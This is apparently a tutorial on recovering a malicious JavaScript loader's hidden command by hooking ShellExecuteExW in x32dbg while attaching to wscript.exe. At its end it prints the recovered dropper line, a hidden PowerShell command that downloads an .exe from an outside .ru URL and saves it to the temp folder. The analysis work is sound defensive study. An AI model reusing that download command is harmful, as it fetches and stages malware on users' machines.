 ### Hooking-Windows-API-Functions-to-Analyze-JavaScript-VBScript-loaders
***Overview*** 

Original idea credits go to Open Analysis Labs(OALabs). This will cover using a debugger to hook standard Windows API function calls used in JavaScript/VBScript loaders used in malware to analyze the original loader.  

***Tools***

- JavaScript Loader Sample.  `Hash: 7616fd825e223fb6f7bfdc0c025a2cf0196b8959cad69eda959c21a7d31e71d5`

- x32/64dbg

***Understanding wscript.exe***

Essentially when Windows runs a JavaScript/VBScript, which calls Windows API functions, it will use wscript.exe as a middle man between the script and the Windows API.

It looks something like the following:

`loader.js -> wscript.exe -> ShellExecuteA`

***Some common function calls used in cases like this are:***

WSASocketW  GetAddrInfoExW  WSASend 

WSAStarup    URLDownloadToFile  ShellExecuteA

ShellExecuteExW 

***Common DLLs:***

shell32.dll and ws2_32.dll

***Technical Begin***

Attach the debugger to wscript.exe located at `C:\Windows\SysWOW64\wscript.exe`

Provide the path to the script file so wscript.exe can execute it. You can do this in x32dbg by going to `File -> Change Command Line`

At this point, you should be ready to go. In the case of this loader, we need to set a breakpoint on shell32.dll. We can not set breakpoints yet on the function calls because they have not been imported yet hence why we need to break on the import of shell32.dll and then move forward on setting up hooks (Breakpoints) on the common function calls. 

Navigate to Breakpoints and in the Command section at the bottom, set a breakpoint on shell32.dll, and then you should see it enabled. 

![image](https://user-images.githubusercontent.com/95584654/158504637-ce708340-f9fd-4aa7-a937-fb755e69bf91.png)


At this point, you can start the debugger and continue until you hit the breakpoint to load the shell32.dll. Looking at the Breakpoint page, we can see that we have one hit on our breakpoint. Navigate to the Symbols page and click on shell32.dll. At this point, you can see all of the symbols. Filter for ShellExecuteExW and set a hook (Breakpoint) on it. 

![image](https://user-images.githubusercontent.com/95584654/158504684-d978c75f-423c-4929-8a4d-6a5892ae803c.png)


After setting the breakpoint, continue debugging and you should hit the breakpoint on ShellExecuteExW. We want to look at the parameters for the function that were pushed on the stack—looking at the MSDN documentation for ShellExecuteExW. The only "parameter" is a pointer to the SHELLEXECUTEINFOW structure. 

Looking at the structure, the two main parameters we want to look at are LPCSTR lpVerb and LPCSTR lpFile. 

You can read about the structure here: https://docs.microsoft.com/en-us/windows/win32/api/shellapi/ns-shellapi-shellexecuteinfoa 

Since we hit our hook on the ShellExecuteExW, we can look at the stack to identify the parameters for the SHELLEXECUTEINFOW structure. 

![image](https://user-images.githubusercontent.com/95584654/158504728-ec02b60c-58f1-45de-8dcc-8f6419620306.png)


We can see the cleartext parameters used in the dropper by doing this. At this point, we can right-click on those lines and select

`Copy -> Copy Selected Lines`

It is calling PowerShell as we can see. Let's take a look at the cleaned up command below: 

```
cmd "/c start /b powershell -WindowStyle Hidden 
$http_request = New-Object -ComObject Msxml2.XMLHTTP;
$adodb = New-Object -ComObject ADODB.Stream;
$path = $env:temp + '\\1079.exe';
$http_request.open('GET', 'http://kanalmalakotv.ru/documenty/pax18.exe?rnd=12802', $false);
$http_request.send();
if($http_request.Status -eq \"200\"){$adodb.open();$adodb.type = 1;$adodb.write($http_request.responseBody);
$adodb.position = 0;
$adodb.savetofile($path);
$adodb.close();}
```
